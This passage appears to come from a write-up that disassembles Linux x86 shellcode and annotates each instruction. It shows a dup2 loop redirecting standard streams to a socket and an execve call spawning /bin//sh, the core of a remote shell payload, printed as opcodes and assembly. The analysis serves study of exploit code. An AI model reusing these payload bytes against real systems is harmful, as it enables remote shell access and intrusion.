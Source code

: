 {% sidenote Use `dup2()` to redirect `stderr` to the Server Socket %}


```nasm
0000000A  49                dec ecx

                            ; jump back to 'push byte 0x3f', continue when ECX == -1
0000000B  79F8              jns 0x5
```

{% sidenote The instruction `JNS` is useful when you want your loop to perform another iteration: when `ECX=0` %}

```nasm
                            ; set EAX to 0xb
0000000D  6A0B              push byte +0xb
0000000F  58                pop eax

                            ; clear EDX and use a string terminator (NULL byte)
00000010  99                cdq
00000011  52                push edx

                            ; string '/bin//sh'
00000012  682F2F7368        push dword 0x68732f2f
00000017  682F62696E        push dword 0x6e69622f

                            ; copy the pointer to "/bin//sh" into EBX
0000001C  89E3              mov ebx,esp

                            ; argv argument of execve (array of pointers)
0000001E  52                push edx
0000001F  53                push ebx

                            ; ECX is an array of pointers: first value is pointer to "/bin//sh", second one is 0x00000000
00000020  89E1              mov ecx,esp

                            ; ; syscall 0xb (11): execve
00000022  CD80              int 0x80
```

{% sidenote After input/output/error is redirected, the shellcode spawn a shell (`/bin//sh`) %}

```nasm
00000024  6563686F          arpl [gs:eax+0x6f],bp
00000028  205135            and [ecx+0x35],dl
0000002B  32617A            xor ah,[ecx+0x7a]
0000002E  46                inc esi
0000002F  56                push esi
00000030  4D                dec ebp
00000031  49                dec ecx
00000032  7847              js 0x7b
00000034  0A                db 0x0a
```
